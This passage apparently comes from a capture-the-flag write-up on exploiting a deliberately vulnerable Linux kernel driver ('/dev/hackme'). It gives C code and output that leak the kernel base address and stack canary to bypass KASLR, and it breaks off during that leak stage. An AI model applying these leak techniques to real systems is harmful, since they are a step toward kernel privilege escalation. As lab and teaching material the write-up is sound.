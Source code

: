     ls -lah gadgets.txt 
    -rw-rw-r-- 1 ctf ctf 46M nov 18 16:01 gadgets.txt

# LEAKING STUFF
Now it's time to write some c code (warning: shitty c code coming!), there are no IOCTL so we will use read() and write() directly on the driver!
First let's open it
```c
int fd;

int main(){
        fd = open("/dev/hackme", O_RDWR);
        if (fd < 0){ 
                printf("Device Not Opened\n");
                return -1;
        }
        printf("[+] Stage 0: Device Opened!\n");
        return 0;
}
```
As we saw earlier there is kaslr so we need to leak some stuff in this case Kernel Base Address and Kernel Stack Cookie...
```c
        for (int i=1; i<=50; i++){
                unsigned long leak[i];
                ssize_t l = read(fd, leak, sizeof(leak));
                for (int j=0;j<i;j++){
                        printf("Cycle: %d Idx: %d Element: %lx\n",i,j,leak[j]);
                }
        }
 ```
 
 As result we get from last cycle

     Cycle: 50 Idx: 0 Element: ffffffffa4ae21d0
    Cycle: 50 Idx: 1 Element: 1f
    Cycle: 50 Idx: 2 Element: 184ded5d1f441700
    Cycle: 50 Idx: 3 Element: ffff931a06ca3f10
    Cycle: 50 Idx: 4 Element: ffffa272c01bfe68
    Cycle: 50 Idx: 5 Element: 4
    Cycle: 50 Idx: 6 Element: ffff931a06ca3f00
    Cycle: 50 Idx: 7 Element: ffffa272c01bfef0
    Cycle: 50 Idx: 8 Element: ffff931a06ca3f00
    Cycle: 50 Idx: 9 Element: ffffa272c01bfe80
    Cycle: 50 Idx: 10 Element: ffffffffa4f945e7
    Cycle: 50 Idx: 11 Element: ffffffffa4f945e7
    Cycle: 50 Idx: 12 Element: ffff931a06ca3f00
    Cycle: 50 Idx: 13 Element: 0
    Cycle: 50 Idx: 14 Element: 7ffe7e120030
    Cycle: 50 Idx: 15 Element: ffffa272c01bfea0
    Cycle: 50 Idx: 16 Element: 184ded5d1f441700
    Cycle: 50 Idx: 17 Element: 190
    Cycle: 50 Idx: 18 Element: 0
    Cycle: 50 Idx: 19 Element: ffffa272c01bfed8
    Cycle: 50 Idx: 20 Element: ffffffffa4bd2c7f
    Cycle: 50 Idx: 21 Element: ffff931a06ca3f00
    Cycle: 50 Idx: 22 Element: ffff931a06ca3f00
    Cycle: 50 Idx: 23 Element: 7ffe7e120030
    Cycle: 50 Idx: 24 Element: 190
    Cycle: 50 Idx: 25 Element: 0
    Cycle: 50 Idx: 26 Element: ffffa272c01bff20
    Cycle: 50 Idx: 27 Element: ffffffffa4816717
    Cycle: 50 Idx: 28 Element: ffffffffa4801a31
    Cycle: 50 Idx: 29 Element: 0